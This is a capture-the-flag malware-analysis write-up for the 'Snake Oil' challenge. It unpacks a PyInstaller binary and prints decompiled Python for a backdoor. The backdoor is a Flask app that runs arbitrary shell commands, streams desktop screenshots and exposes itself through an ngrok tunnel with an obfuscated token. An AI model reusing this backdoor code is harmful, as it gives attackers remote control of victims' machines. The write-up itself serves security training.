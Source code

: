 # ✅ MALWARE - Snake Oil

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- medium

Files:

- [snake-oil](./snake-oil)

## Description

Author: @JohnHammond

One of our workstations was exhibiting strange network communications... we found this binary that looked to be the culprit. Can you find anything suspicious?  Download the file(s) below.

## Writeup

A quick check of the file shows it's a binary executable and further inspect reveals it's a packed python3.9 pyinstaller executable.

```shell
$ file snake-oil
snake-oil: PE32+ executable (console) x86-64, for MS Windows, 7 sections
$ strings snake-oil|grep pyt
IP%7pytp
pytweening)
bpython39.dll
'python39.dll
```

Let's pull the executable apart and then decompile the main compiled python pyc file.

```shell
# Get pyinstxtractor to pull python code out of pyinstaller executable
$ git clone https://github.com/extremecoders-re/pyinstxtractor
[...]
$ cd pyinstxtractor
$ python pyinstxtractor.py ../snake-oil
[...]
$ cd pyinstxtractor/snake-oil_extracted
# Get pycdc to decompile pyc files
$ git clone https://github.com/zrax/pycdc.git
$ cd pycdc
$ cmake CMakeLists.txt
$ make
$ make install
$ pycdc brain-melt.pyc;
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)
[...]
```

We get a decompiled python source code file. It has a tiny tiny mistake that we'll correct in a minute:

```python
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)

from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, TextField, validators, StringField, SubmitField
import subprocess
import pyautogui
import io
import sys
from PIL import Image
from pyngrok import ngrok
import base64
DEBUG = True
app = Flask(__name__)
app.config['SECRET_KEY'] = '9EQrXQ88pwP7UWaXbkmThhKuDdYxsad1'

def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000, 'http', '-log=stdout > NUL')


def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', 70, **('quality',))
    img_io.seek(0)
    return send_file(img_io, 'image/jpeg', **('mimetype',))


def execute(cmd):
    child = subprocess.Popen(cmd, True, subprocess.PIPE, subprocess.PIPE, **('shell', 'stdout', 'stderr'))
    for line in child.stdout:
        print(line)
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)
    for line in child.stderr:
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)


class CommandForm(Form):
    command = TextField('Command:', [
        validators.required()], **('validators',))

    def display():
        form = CommandForm(request.form)
        print(form.errors)
        if request.method == 'POST':
            command = request.form['command']
        if form.validate() and request.method == 'POST':
            result = execute(command)
            flash(result)
        else:
            flash('Please enter a command.')
        return render_template_string('<!doctype html>\n                <html>\n                    <head>\n                        <link rel="stylesheet" href="css url"/>\n                            </head>\n                                <body>\n                                    <form action="" method="post" role="form">\n                                        <div class="form-group">\n                                              <label for="Command">Command:</label>\n                                              <input type="text" class="form-control" id="command" name="command"></div>\n                                              <button type="submit" class="btn btn-success">Submit</button>\n                                              </form>\n                                            {% for message in get_flashed_messages() %}\n                                            <p>{{ message }}</p>\n                                            {% endfor %}\n                                            <img src="/images/desktop.jpg" id="img" width="100%" scrolling="yes" style="height: 100vh;"></iframe>\n                                </body>\n                            \n                            {% block javascript %}\n                            <script type="text/javascript">\n                            window.onload = function() {\n                                var image = document.getElementById("img");\n\n                                function updateImage() {\n                                    image.src = image.src.split("?")[0] + "?" + new Date().getTime();\n                                }\n\n                                setInterval(updateImage, 1000);\n                            }\n                            </script>\n                            {% endblock %}\n                            </html>\n                        ', form, **('form',))

    display = app.route('/', [
        'GET',
        'POST'], **('methods',))(display)


def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

serve_img = app.route('/images/desktop.jpg')(serve_img)
# WARNING: Decompyle incomplete
```

From here I started to focus on the decrypt and deobfuscate functions. There is a small error in the decompilation that we need to fix. `.0` just needs to be any other variable place holder. Make it `x`, `i`, `c`, whatever, just fix it.

```python
def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key
```

Then run the code in an interpreter to get the flag you earned:

![Get the flag](./flag.png)

```python
$ ipython
def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    import base64
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    del(base64)
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def decrypt(s1, s2):
    return ''.join((lambda x: [chr(ord(c1) ^ ord(c2)) for c1, c2 in x]) (zip(s1, s2)))


print(deobfuscate())
flag{d7267ce26203b5cc69f4bab679cc78d2}
```
